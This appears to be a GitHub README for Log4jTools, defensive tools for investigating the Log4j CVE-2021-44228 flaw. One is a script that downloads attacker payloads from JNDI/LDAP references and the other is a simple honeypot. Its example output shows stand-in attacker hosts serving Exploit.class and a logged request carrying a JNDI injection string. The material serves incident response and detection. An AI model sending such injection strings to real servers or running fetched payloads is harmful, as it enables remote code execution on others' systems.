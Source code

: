 # Log4jTools
Tools for investigating Log4j CVE-2021-44228

## FetchPayload.py (Get java payload from ldap path provided in JNDI lookup).
Requirements: curl (system), requests (python)

Example command:
```
python FetchPayload.py ldap://maliciouserver:1337/path

[+] getting object from ldap://maliciouserver:1337/path
[+] exploit payload: http://maliciouserver:80/Exploit.class
[+] seeing if attacker left behind un-compile payload http://maliciouserver:80/Exploit.java
[x] failed to find payload Exploit.java
[+] trying to fetch compiled payload http://maliciouserver:80/Exploit.class
[+] found payload and saved to file Exploit.class_
```

## SimpleHoneypot.py (honeypot to catch exploit attempts based on presence of '${' ).
Requirements: python3, asyncore

Example command:
```
python3 SimpleHoneypot.py

[2021-12-09 13:00:00,000] Possible CVE-2021-44228 Attempt: 127.0.0.1:1111 -> port 8080 - GET /?id=${jdni:ldap://127.0.0.1:1389/hax} HTTP/1.1
